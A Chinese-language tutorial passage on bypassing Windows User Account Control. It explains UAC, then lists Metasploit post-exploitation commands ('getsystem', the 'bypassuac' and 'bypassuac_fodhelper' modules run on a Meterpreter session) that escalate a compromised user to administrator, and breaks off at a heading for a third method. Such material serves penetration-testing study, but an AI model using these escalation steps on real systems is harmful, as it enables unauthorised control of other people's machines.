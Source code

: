 ![](img/5.png)
，同时设置好服务端监听ip和端口。



## 1.什么是UAC？

Microsoft的Windows Vista和Windows Server 2008操作系统引入了一种良好的用户帐户控制架构，以防止系统范围内的意外更改，这种更改是可以预见的，并且只需要很少的操作量。它是Windows的一个安全功能，它支持防止对操作系统进行未经授权的修改，UAC确保仅在管理员授权的情况下进行某些更改。如果管理员不允许更改，则不会执行这些更改，并且Windows系统保持不变。

## 2.UAC如何运行？

UAC通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行。除非尝试执行这些操作的进程以管理员权限运行，否则这些操作将无法运行。如果您以管理员身份运行程序，则它将具有更多权限，因为它将被“提升权限”，而不是以管理员身份运行的程序。

因为有的用户是没有管理员权限，没有管理员权限是运行不了哪些只能通过管理员权限才能操作的命令。比如修改注册表信息、创建用户、读取管理员账户密码、设置计划任务添加到开机启动项等操作。

最直接的提权命令：getsystem

绕过UAC防护机制的前提是我们首先通过explloit获得目标主机的meterprter。获得meterpreter会话1后，输入以下命令以检查是否是system权限。在这里我就不直接演示了，直接上命令，自己多练习练习即可，所话说熟能生巧。我们需要把获取到的session保存到后台，执行background



方法一:

`use exploit/windows/local/bypassuac ` //将通过进程注入使用可信任发布者证书绕过Windows UAC。它将生成关闭UAC标志的第二个shell。
```
set session 1  //使用sessino 1

Exploit        //执行权限提升的攻击模式
```
执行完毕成功后，再次查询当前用户的权限就会提升到管理员权限。我这里已经是管理员权限了，所以会出现这样的提示。



方法二：Windows权限提升绕过UAC保护（内存注入）

此模块将通过进程注入使用可信任的发布者证书绕过Windows UAC。它将生成关闭UAC标志的第二个shell。在普通技术中，该模块使用反射式DLL注入技术并只除去了DLL payload 二进制文件，而不是三个单独的二进制文件。但是，它需要选择正确的体系架构（对于SYSWOW64系统也使用x64）。执行完毕以下命令，当前用户权限就会变为管理员权限。
```
use exploit/windows/local/bypassuac_fodhelper

set session 1

Exploit   
```
方法三：通过COM处理程序劫持  
